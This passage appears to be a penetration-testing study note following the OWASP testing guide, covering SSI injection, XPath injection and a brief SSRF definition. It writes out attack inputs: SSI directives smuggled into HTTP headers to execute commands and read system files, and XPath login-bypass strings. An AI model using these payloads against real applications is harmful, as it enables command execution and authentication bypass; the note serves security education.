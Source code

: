 If we can manipulates them, we could either perform RCE our LFI

The SSI directives can also be injected in the HTTP headers, if the web application is using that data to build a dynamically generated page:

```txt
Referer: <!--#exec cmd="/bin/ps ax"-->
User-Agent: <!--#include virtual="/proc/version"-->
```

SSI-Injection-Jhaddix.txt

Reference: [WSTG-INPV-08 - Testing for SSI Injection](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/08-Testing_for_SSI_Injection.html)

##### Testing for XPath Injection

> / / To Finish

XML can be used to store data. This data stored in XML can be queried via **XPath**

```xml
<users>
 <user>
   <name>thomas</name>
   <username>thomas</username>
   <password>password123</password>
   <admin>1</admin>
 </user>
</users>
```

By responding the following to the form, it's gonna perform an XPATH injection

username: thomas **" or "1" ="1**
password: secret

Here below is how the query looks like:

/user[username="thomas **" or "1"="1"** and password="secret"]
&rarr; username ="thomas" or [**TRUE** and **FALSE**]
&rarr; username ="thomas" or FALSE

If we don't have the user name, just do **" or "1" ="1" or "1" ="1**

It is possible to detect the number of nodes, identifying the data in the XML document using various XPath sub functions

```xpath
# Returns the number of nodes:
count(//user/child::node()
```

##### Testing for IMAP SMTP Injection

###### *If you don't know, now you know: [SSRF](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)*

SSRF (Server-Side Request Forgery) is a type of vulnerability that allows an attacker to force an application to issue requests on behalf of the attacker, to unintended resources.

